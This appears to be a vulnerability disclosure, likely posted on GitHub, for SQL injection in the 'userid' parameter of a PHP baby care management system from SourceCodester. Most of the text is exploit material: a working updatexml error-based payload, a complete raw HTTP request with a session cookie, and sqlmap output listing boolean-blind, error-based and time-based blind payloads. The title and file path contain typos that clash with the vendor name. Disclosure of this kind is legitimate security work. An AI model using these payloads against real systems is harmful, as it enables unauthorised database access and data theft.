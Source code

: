 ## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/uesrs.php&&action=delete&userid=4

![image](https://user-images.githubusercontent.com/54017627/161356819-85b2956c-6f77-40f2-8f48-4a4e32ab0963.png)

Vulnerability location: /BabyCare/admin.php?id=users&action=delete&userid=4 //uesrid is Injection point

[+]Payload: /BabyCare/admin.php?id=users&action=delete&userid=4%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+  //userid is Injection point

```sql
GET /BabyCare/admin.php?id=users&action=delete&userid=4%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=h48mjnelp4g0935821l2k3g5ne
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/161356722-7853064b-163d-40d1-b66c-6547ce119001.png)

```sql
---
Parameter: userid (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=users&action=delete&userid=4' RLIKE (SELECT (CASE WHEN (9720=9720) THEN 4 ELSE 0x28 END))-- nviO

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=users&action=delete&userid=4' AND EXTRACTVALUE(9289,CONCAT(0x5c,0x716b6b6271,(SELECT (ELT(9289=9289,1))),0x717a707a71))-- ULrQ

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=users&action=delete&userid=4' AND (SELECT 6930 FROM (SELECT(SLEEP(5)))eKMb)-- Pdwh
---
```

![image](https://user-images.githubusercontent.com/54017627/161356843-59a6dd0a-d394-4f8f-bedf-0fe88ca618c6.png)


